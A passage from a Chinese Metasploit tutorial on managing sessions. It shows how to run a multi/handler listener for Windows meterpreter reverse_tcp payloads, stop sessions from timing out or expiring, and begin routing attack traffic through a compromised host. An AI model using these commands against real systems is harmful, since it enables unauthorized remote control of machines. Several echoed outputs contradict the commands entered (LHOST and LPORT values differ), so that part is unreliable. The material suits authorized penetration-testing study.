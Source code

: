   进入指定交互会话
  
- `jobs`
  
  查看当前运行的模块
  
- `jobs -K`

  结束所有会话

**防止假session以及session意外退出**

在接收到seesion后继续监听端口，保持侦听。

```bash
msf exploit(multi/handler) > set ExitOnSession false
```

默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0

```bash
msf5 exploit(multi/handler) > set SessionCommunicationTimeout 0
```

默认情况下，一个星期（604800秒）后，会话将被强制关闭,修改为0可永久不会被关闭

```bash
msf5 exploit(multi/handler) > set SessionExpirationTimeout 0
```



### 例-开启监听

正常开启监听

```bash
msf5 > use exploit/multi/handler #payload会变
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp_rc4 
payload => windows/x64/meterpreter/reverse_tcp_rc4
msf5 exploit(multi/handler) > show options
# 略
msf5 exploit(multi/handler) > set LHOST 10.10.10.1
LHOST => 47.104.134.135
msf5 exploit(multi/handler) > set LPORT 1234
LPORT => 2333
msf5 exploit(multi/handler) > set RC4PASSWORD test123
RC4PASSWORD => test123
```

快速开启监听命令

```bash
msf5 > handler -H 10.10.10.1 -P 3333 -p windows/meterpreter/reverse_tcp
```

### 路由与代理管理

**添加路由**

意味着对192.168.10.0/24网段的所有攻击和控制的流量都将通过会话1进行转发
